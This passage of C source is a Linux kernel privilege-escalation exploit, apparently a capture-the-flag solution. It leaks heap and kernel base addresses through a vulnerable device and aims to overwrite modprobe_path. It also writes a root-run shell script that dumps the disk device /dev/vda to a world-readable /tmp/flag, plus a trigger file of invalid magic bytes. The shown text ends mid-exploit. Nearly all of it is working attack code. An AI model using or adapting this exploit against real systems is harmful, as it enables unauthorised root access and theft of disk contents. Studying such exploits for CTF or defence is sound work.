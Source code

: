 ```c
        char buf[16] = { 0 };
        read(fd, buf, sizeof buf);
        return *(size_t *)buf;
    }
}

void prepare_modprobe_files() {
    {
        int fd = open(EXPLOIT_SH, O_CREAT | O_WRONLY);
        char buf[] = "#!/bin/sh\ntouch /tmp/pwned\ncat /dev/vda > /tmp/flag\nchmod 777 /tmp/flag\n";
        write(fd, buf, sizeof buf);
        fchmod(fd, 0777);
        close(fd);
    }
    {
        int fd = open(TRIGGER_SH, O_CREAT | O_WRONLY);
        char buf[] = "\xff\xff\xff\xff";
        write(fd, buf, sizeof buf);
        fchmod(fd, 0777);
        close(fd);
    }
}

int main() {
    int fds[FD_COUNT] = { 0 };
    
    for (int i = 0; i < ARRAY_SIZE(fds); i += 1) {
        fds[i] = open(TARGET, O_RDWR);
    }
    
    size_t heap_leak = leak_heap(fds[0]);
    printf("Heap leak: %p\n", heap_leak);
    size_t current_buffer = heap_leak - 0x400;
    printf("Current buffer: %p\n", current_buffer);

    size_t kernel_base = 0;
    // spray pages to find which one contains the desired offset
    for (int i = 0; i < ARRAY_SIZE(fds); i += 1) {
        int fd = fds[i];
        size_t kernel_leak = try_read_kernel(fd, current_buffer, i != 0);
        // kernel base has higher dword filled with 1s
        if (kernel_leak >> 32 != 0xFFFFFFFF || kernel_leak == 0xFFFFFFFFFFFFFFFF) {
            continue;
        }
        printf("Kernel leak: %p\n", kernel_leak);
        kernel_base = kernel_leak - 0x1008e00;
        // kernel base has lower bytes 0
        if (kernel_base & 0xfffff != 0) {
            continue;
        }
        printf("Kernel base: %p\n", kernel_base);
        break;
    }
    if (kernel_base == 0) {
        printf("Kernel base not found... try again\n");
        return -1;
    }

    size_t modprobe_path = kernel_base + modprobe_path_offset;
    printf("modprobe_path: %p\n", modprobe_path);

    // point buffer->pos so we can write in buffer->name
```